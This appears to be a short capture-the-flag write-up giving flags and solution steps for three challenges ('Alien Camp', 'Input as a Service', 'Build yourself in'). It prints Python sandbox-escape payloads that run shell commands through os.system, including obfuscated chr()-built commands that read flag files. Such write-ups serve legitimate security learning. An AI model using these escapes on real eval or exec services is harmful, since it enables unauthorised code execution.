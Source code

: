 ### Alien Camp: CHTB{3v3n_4l13n5_u53_3m0j15_t0_c0mmun1c4t3}
- service sends emoji mapping following by 500 math problems using emojis
- build mapping dictionary and use to programmatically replace emojis with values
- use *eval* to calculate the answer for each round until the flag is sent back

### Input as a Service: CHTB{4li3n5_us3_pyth0n2.X?!}
- web services reads and executes Python commands but filters certain characters
- possible to bypass using `__import__('os').system('ls')` to read directory and `__import__('os').system('cat flag.txt')` to read flag
- https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes

### Build yourself in: CHTB{n0_j4il_c4n_h4ndl3_m3!}
- provided with system that runs input through Python's exec functions, removes built-ins, but leaves print
- possible to get built-ins back through "print.__self__"
- `chr = print.__self__.chr; os = print.__self__.__import__(chr(111)+chr(115)); print(os.system(chr(108)+chr(115)))`
- `chr = print.__self__.chr; os = print.__self__.__import__(chr(111)+chr(115)); print(os.system(chr(99)+chr(97)+chr(116)+chr(32)+chr(102)+chr(42)))`
- https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes
